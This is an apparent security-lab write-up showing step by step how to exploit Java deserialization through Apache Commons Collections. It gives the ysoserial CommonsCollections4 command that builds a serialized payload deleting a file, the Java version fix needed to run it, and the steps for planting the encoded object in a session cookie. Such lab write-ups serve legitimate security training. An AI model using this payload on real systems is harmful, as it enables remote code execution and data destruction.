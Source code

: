 # Exploiting Java deserialization with Apache Commons

## This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

## To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

## You can log in to your own account using the following credentials: `wiener:peter`

### step1

Download the "ysoserial" tool and execute the following command:

### step2

login into an account
copy cookies and decode cookies
cookies starts with `rO0` which is a strong indication that it is a base64 encoded serialized Java object

![screenshot](./images/lab5_cookies.png)

### Payload `java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64`

─$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Error while generating or serializing payload
java.lang.IllegalAccessError: class ysoserial.payloads.util.Gadgets (in unnamed module @0x4015e7ec) cannot access class com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl (in module java.xml) because module java.xml does not export com.sun.org.apache.xalan.internal.xsltc.trax to unnamed module @0x4015e7ec
at ysoserial.payloads.util.Gadgets.createTemplatesImpl(Gadgets.java:102)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:32)
at ysoserial.payloads.CommonsCollections4.getObject(CommonsCollections4.java:26)
at ysoserial.GeneratePayload.main(GeneratePayload.java:34)

### step3

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.6 2023-01-17
OpenJDK Runtime Environment (build 17.0.6+10-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.6+10-Debian-1, mixed mode, sharing)

### step4

### Error fix

to fix ### step2 error
run nti cmd
\_update-java-alternatives --list
java-1.11.0-openjdk-amd64 1111 /usr/lib/jvm/java-1.11.0-openjdk-amd64
java-1.17.0-openjdk-amd64 1711 /usr/lib/jvm/java-1.17.0-openjdk-amd64

### step5

sudo update-java-alternatives --set /usr/lib/jvm/java-1.11.0-openjdk-amd64

### step6

java --version  
Picked up \_JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 11.0.17 2022-10-18
OpenJDK Runtime Environment (build 11.0.17+8-post-Debian-2)
OpenJDK 64-Bit Server VM (build 11.0.17+8-post-Debian-2, mixed mode, sharing)

### step6

after changing java version
use the below command
$ java -jar ysoserial-all.jar CommonsCollections4 'rm /home/carlos/morale.txt' | base64 -w 0 > CookiesToUse.txt

### step7

copy CookiesToUse.txt content into decoder
encode into  URL-encode

### step8

replace cookies with encoded url
forword request lab solved
